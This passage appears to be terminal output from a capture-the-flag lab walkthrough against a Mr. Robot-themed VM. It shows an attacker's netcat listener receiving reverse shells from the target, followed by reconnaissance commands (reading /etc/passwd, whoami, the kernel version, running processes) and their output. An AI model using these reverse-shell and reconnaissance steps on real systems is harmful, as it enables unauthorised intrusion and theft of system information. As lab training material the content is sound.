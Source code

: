     ┌──(kali㉿kali)-[~]
    └─$ nc -lnvp 4444  
    listening on [any] 4444 ...
    connect to [192.168.56.107] from (UNKNOWN) [192.168.56.105] 34034
    cat /etc/passwd
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    libuuid:x:100:101::/var/lib/libuuid:
    syslog:x:101:104::/home/syslog:/bin/false
    sshd:x:102:65534::/var/run/sshd:/usr/sbin/nologin
    ftp:x:103:106:ftp daemon,,,:/srv/ftp:/bin/false
    bitnamiftp:x:1000:1000::/opt/bitnami/apps:/bin/bitnami_ftp_false
    mysql:x:1001:1001::/home/mysql:
    varnish:x:999:999::/home/varnish:
    robot:x:1002:1002::/home/robot:
.

    ┌──(kali㉿kali)-[~]
    └─$ nc -lnvp 4444                                                            
    listening on [any] 4444 ...
    connect to [192.168.56.107] from (UNKNOWN) [192.168.56.105] 34036
    whoami
    daemon
    cat /proc/version
    Linux version 3.13.0-55-generic (buildd@brownie) (gcc version 4.8.2 (Ubuntu 4.8.2-19ubuntu1) ) #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015
    cat /etc/issue
    _____          __________      ___.           __
    /     \\_______  \\______   \\ ____\\_ |__   _____/  |_
    /  \\ /  \\_  __ \\  |       _//  _ \\| __ \\ /  _ \\   __\\
    /    Y    \\  | \\/  |    |   (  <_> ) \\_\\ (  <_> )  |
    \\____|__  /__|     |____|_  /\\____/|___  /\\____/|__|
    \\/                \\/           \\/
.

    ┌──(kali㉿kali)-[~]
    └─$ nc -lnvp 4444
    listening on [any] 4444 ...
    connect to [192.168.56.107] from (UNKNOWN) [192.168.56.105] 34037
    ps aux
    USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
    root         1  0.0  0.3  33240  1608 ?        Ss   20:04   0:00 /sbin/init
    root         2  0.0  0.0      0     0 ?        S    20:04   0:00 [kthreadd]
    root         3  0.0  0.0      0     0 ?        S    20:04   0:00 [ksoftirqd/0]
    root         4  0.0  0.0      0     0 ?        S    20:04   0:00 [kworker/0:0]
    root         5  0.0  0.0      0     0 ?        S<   20:04   0:00 [kworker/0:0H]
    root         6  0.0  0.0      0     0 ?        S    20:04   0:00 [kworker/u2:0]
    root         7  0.0  0.0      0     0 ?        S    20:04   0:00 [rcu_sched]